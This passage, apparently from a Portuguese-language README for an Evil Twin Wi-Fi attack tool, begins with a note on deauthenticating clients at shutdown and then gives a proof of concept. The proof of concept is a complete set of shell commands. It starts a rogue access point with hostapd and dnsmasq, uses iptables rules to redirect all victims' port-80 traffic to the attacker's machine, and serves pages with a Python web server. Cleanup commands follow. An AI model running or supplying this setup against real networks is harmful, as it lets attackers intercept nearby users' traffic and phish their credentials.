 Durante o desligamento, precisamos desativar todos os clientes do Evil Twin para que eles se juntem ao AP real.

Essa desautenticação deve continuar até que todos os clientes sejam desautenticados do Evil Twin.

Em seguida, o script pode ser interrompido.


Prova de conceito
=================

Inicie o AP e capture todo o tráfego da porta 80:

```
ifconfig wlan0 10.0.0.1/24 up

# start dnsmasq for dhcp & dns resolution (runs in background)
killall dnsmasq
dnsmasq -C dnsmasq.conf

# reroute all port-80 traffic to our machine
iptables -N internet -t mangle
iptables -t mangle -A PREROUTING -j internet
iptables -t mangle -A internet -j MARK --set-mark 99
iptables -t nat -A PREROUTING -m mark --mark 99 -p tcp --dport 80 -j DNAT --to-destination 10.0.0.1
echo "1" > /proc/sys/net/ipv4/ip_forward
iptables -A FORWARD -i eth0 -o wlan0 -m state --state ESTABLISHED,RELATED -j ACCEPT
iptables -A FORWARD -m mark --mark 99 -j REJECT
iptables -A FORWARD -i wlan0 -o eth0 -j ACCEPT
iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

# start wifi access point (new terminal)
killall hostapd
hostapd ./hostapd.conf -i wlan0

# start webserver on port 80 (new terminal)
python -m SimpleHTTPServer 80
```

Limpar:

```
# stop processes
# ctrl+c hostapd
# ctrl+c python simple http server
killall dnsmasq

# reset iptables
iptables -F
iptables -X
iptables -t nat -F
iptables -t nat -X
iptables -t mangle -F
iptables -t mangle -X
```


